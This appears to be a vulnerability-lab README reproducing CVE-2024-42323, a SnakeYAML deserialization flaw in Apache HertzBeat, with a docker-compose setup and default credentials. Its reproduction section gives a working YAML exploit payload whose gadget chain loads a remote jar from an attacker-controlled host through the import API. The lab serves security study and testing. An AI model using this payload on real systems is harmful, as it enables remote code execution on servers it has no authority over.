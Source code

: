 # Apache-HertzBeat SnakeYaml Deserialization Vulnerability (CVE-2024-42323)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HertzBeat is an open-source real-time monitoring tool. In affected versions, due to the use of a vulnerable version of SnakeYAML for parsing user-controlled YAML files, authenticated attackers can configure malicious YAML scripts when importing new monitoring types via the /api/monitors/import and /api/alert/defines/import APIs, potentially leading to remote code execution.

Affected Versions:

* Apache HertzBeat < 1.6.0

References:

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## Vulnerable environment

To run the vulnerable environment:

```
docker-compose up -d
```

This will start a `HertzBeat 1.4.4 service`.

Once the service is up and running, access the login page at  `http://your-ip:1157/dashboard`.

The default credentials are `admin/hertzbeat`.

## Vulnerability reproduce

Select any monitor and click to import the monitor.

![image-20250225144319776](1.png)

Then, Modify the value field in the uploaded YAML file:

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

The `/api/monitors/import` endpoint triggers the SnakeYaml deserialization vulnerability.

* Compile the project from `https://github.com/fei9747/yaml-payload/` under jdk11 to generate the payload.
* Example: The generated payload executes the local command `touch /tmp/success`.

Successfully executing the code:

![image-20250225145141924](2.png)The `success` file has been successfully created inside the container.

![image-20250225145052690](3.png)
